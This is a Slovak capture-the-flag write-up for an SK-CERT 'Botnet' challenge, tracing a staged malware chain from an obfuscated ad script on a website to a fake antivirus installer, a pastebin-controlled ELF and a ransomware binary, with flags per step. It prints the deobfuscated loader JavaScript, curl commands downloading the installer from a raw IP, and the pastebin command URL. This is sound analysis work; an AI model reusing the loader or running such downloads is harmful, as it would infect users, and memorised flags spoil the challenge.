# SK-CERT - BOTNET
> Dostali sme hlásenie že na stránke ventilsro.github.io vyskakuje podozrivé okno. Mohli by ste to skontrolovať? <br/>
Reported Difficulty: 2

## 1 Záhadné okno
> Nietorý použivatelia nám občas nahlásia vyskakovacie okno v strede obrazovky, je potrebné túto aktivitu preveriť.

> Body: 3

Pozrieme sa na https://ventilsro.github.io/, zvyčajne prvý flag býva v page source, ale v tomto prípade nič tam nie je. Zaujímavé ale vyzerá ten javascript:



Pozrieme sa naň a máme prvý flag:



```
flag: SK-CERT{c4n_y0u_f1nd_17}
```

## 2 Takže pre toto!
> Keď už vieme ako funguje javascript, Musíme zistiť či náhodou neobsahuje niečo škodlivé.

> Body: 6

Ten java script vyzerá podozrivo, pravdepodobne bol použitý nejaký obfuscator, skúsime hľadať online, napríklad tento: http://www.addressmunger.com/javascript_obfuscator/index.php
Vložíme tam náš javascript, dva krát dáme decode a máme šťastie že, Arci-Zločan použil default obfuscator.



Je aj iná cesta, brute-force debug, lebo keby Arci-Zločan použil nejaký svoj obfuscator tak by sme nemali také šťastie. Na brute-force stačí použiť Chrome dev tools, dát tam nejaký break point a skúšať čo sa udeje:



Po niekoľkých pokusoch sme odhalili náš skutočný javascript:



Javascript: 
```
function process(text){document.getElementById("data_from_int").innerHTML=text}var ad=0;if(navigator.appVersion.indexOf("Linux")){ad=Math.floor(Math.random()*50+1)}else{ad=Math.floor(Math.random()*50+51)}fetch('https://int3.sk/reklama'+ad+'.txt').then(response=>response.text()).then(text=>process(text))
```

Síce žiadny tam flag nie je, ale z kódu vidíme, že sa reklama ťahá z `'https://int3.sk/reklama'+ad+'.txt'`, kde `ad` je náhodne číslo medzi `1` a `101`, tak skúsme...Zdá sa, že Arci-Zločan chce aby sme skúsili 100 rôznych adries či sa v niektorej neukrýva ďalší flag… skúsime našu vernú zbraň: `curl https://int3.sk/reklama[1-100].txt` a máme ďalší flag:



```
flag: SK-CERT{l3g17_4nt1v1ru5}
```

## 3 Antivirus 3000
> Reklama, a ponúka stiahnutie antivírusu? Podozrivé! Je potrebné zistiť čo reálne stahujeme.

> Body: 3

Z predchádzajúceho kroku vidíme, že reklama číslo 43 okrem flagu, ukrýva aj odkaz na nejaký shell script, tak sa poďme na to pozrieť: `curl http://194.182.66.53/antivirus3000_installer.sh` a máme hneď ďalší flag:  



```
flag: SK-CERT{1n574l_17_4lr34dy}
```

## 4 Elf
> Dostali sme ďalšie hlásenie že niekoľko použivatelov tejto stránky malo poškodený počítač, je potrebné vyšetrovať ďalej

> Body: 6

Z predchádzajúcej úlohy vidíme, že shell script niečo stiahne z `https://rentry.co/vpvqs/raw` a uloží to ako súbor `antivirus3000`. Sťahujeme ten súbor a zisťujeme, že je to štandardná Linuxová binárka. 
```
$ file antivirus3000 
antivirus3000: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b428836a750d2fd0a3bfccf09080250e5372b0fe, for GNU/Linux 3.2.0, not stripped
```
Po spustení binárky žiadny output ale cez Wireshark vidíme, že komunikuje s `pastebin.com`, tak pustime Burp a skúsime zachytiť tú požiadavku. 



*Keďže je to https komunikácia, museli sme pridať Burp certifikát do trusted root certificate store.*

Tu vidíme Request a Response:



Stiahneme si ten `runner.tar` a vidíme tam `flag.txt`.. ktorý ale nie je pre tuto úlohu, asi bude pre jednu z ďalších.

Púšťame sa do študovania forenznej analýzy `ELF`. `Strings` nám nezistil žiadny flag, jedine že je binárka používa `curl`, čo znamená, že asi otvára nejaké sieťové spojenie niekam.
Skúšame `strace -o trace.out ./antivirus3000` ani to nám nič nehovorí.

Ďalšie hodiny som strávil s debugovaním binárky, stepovaním inštrukcií cez gdb a Ghidra, aj keď v tom moc skúsenosti nemám.
Zaujal ma kód v ktorom sa generuje url pre curl: 
```
curl_easy_setopt(local_18,0x2712,local_268);
```



Snažil som sa nejak zistiť čo obsahuje `local_286` a po hodinách `ni`, `si`, `print $rdi` a podobných vecí, ktoré len tak-tak tuším čo znamenajú sa mi podarilo dostepovať pred call tej funkcie, kde som si pozrel obsah pamäte na `[RBP + -0x260]`



a zobrazením obsahu pamäte som získal známy string, ktorý bol akceptovaný!



```
flag: SK-CERT{p45t3b1n_15_hug3}
```

P.S. mohol som toto vyriešiť aj skôr, keby som si uvedomil, že 
```
5555555555a5 88 94 05        MOV        byte ptr [RBP + RAX*0x1 + -0x260],DL
             a0 fd ff ff

```
je to vlastne adresa pre `local_268[int(conter)]`, nie pre cely string `local_268`. Ja som sledoval obsah pamäti pomocou `x/s $rbp+$rax*0x1-0x260` a neuvedomil som si, že pozerám iba posledný byte:

```
 (gdb)x/s $rbp+$rax*0x1-0x260
0x7fffffffdcbb: "4"
 (gdb)x/s $rbp-0x260
0x7fffffffdc90: "https://pastebin.com/raw/9gQzJk4j#SK-CERT{p4"
```

## 5 Vykonané príkazy
> Zistili ste, že program spúšťa príkazy z pastebin. Teraz treba zistiť aké konkrétne.

> Body: 3

Tu som použil flag, ktorý som získal na začiatku predchádzajúcej úlohy, kde som odchytil komunikáciu s pastebin a stiahol `runner.tar`, ktorý obsahoval `flag.txt`

```
flag: SK-CERT{4n0th3r_f1lthy_3lf}
```

## 6 Ďalšia binárka
> Ďalší binárny súbor? Pustite sa do analýzy

> Body: 6

Po spustení `./runner` sa nič nedeje... niet divu. Otvárame `runner` v Ghidre a pozeráme `main` funkciu:



Podlá analýzy main, kód otvára aktuálny adresár, a ak sa tam nachádza adresár menom "dRIA2HpoQrC24jEoww4m" tak ho zašifruje. 
Vyskúšame vytvoriť adresár `dRIA2HpoQrC24jEoww4m` a spustiť `./runner`:



Takže, takto sa dostaneme ďalej do `encrypt_file` funkcie, ktorá podlá analýzy nerobí nič zaujímavé sama o sebe, otvára adresár, číta meno adresára a vola ďalšiu funkciu `encrypt`, ktorá už vyzerá zaujímavo, najmä `for` loop ktorý vyzerá podozrivo, ako z predošlých úloh kde sa generuje flag:



Skúšame krokovať cez `gdb`, nastavíme break point najprv na `main`, potom na `encrypt_file` a nakoniec sa dostaneme do `encrypt` a krokujeme do toho `for` loopu, a tento krát využijeme príkaz na vykonanie viac krokov naraz:

````
python [gdb.execute('ni') for x in range(12)]
````
Po niekoľkých opakovaní úspešne získavame ďalší flag:



```
flag: SK-CERT{th3_k3y}
```

## 7 Dekryptor
> Z analýzy sme zistili že sa jedná o ransomvér a klúč je pevne zakódovaný v zdrojovom kóde. Je potrebné napísať dekryptor a dekryptovať následovné súbory: https://drive.google.com/file/d/1Iv_Bl3yI8Pncd5iq3xaGdqnaScVwTO3Q/view?usp=sharing

> Body: 6

Tak toto už si netrúfam...možno nabudúce.

